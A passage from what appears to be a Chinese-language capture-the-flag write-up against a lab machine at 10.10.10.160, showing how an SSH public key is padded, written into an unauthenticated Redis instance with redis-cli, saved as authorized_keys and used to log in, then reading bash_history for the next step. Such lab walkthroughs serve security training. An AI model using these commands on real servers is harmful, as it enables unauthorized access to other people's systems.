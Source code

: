 然后，我使用换行符保存公钥的内容，以确保格式一致:

```
(echo -e "\n\n"; cat sifo.pub; echo -e "\n\n") > foo.txt
```

然后，我将内容传送到 redis-cli 命令，并将其转储到内存中:

```
cat foo.txt | redis-cli -h 10.10.10.160  -x set crackit
```

然后，我将内存中的内容保存到一个名为 authorized_keys 的文件中

![](img/d49701449e37905e60f9b847afc3902a.png)

然后，我尝试使用 Redis 用户进行 SSH，并且能够这样做。

![](img/8373bbc9ad07c796376e4e0b529ed060.png)

## Redis → Matt

检查当前目录中的文件，我试图读取 bash_history 文件中的内容。

![](img/514a88b31aa32c5f7b8d78f0f2c89853.png)
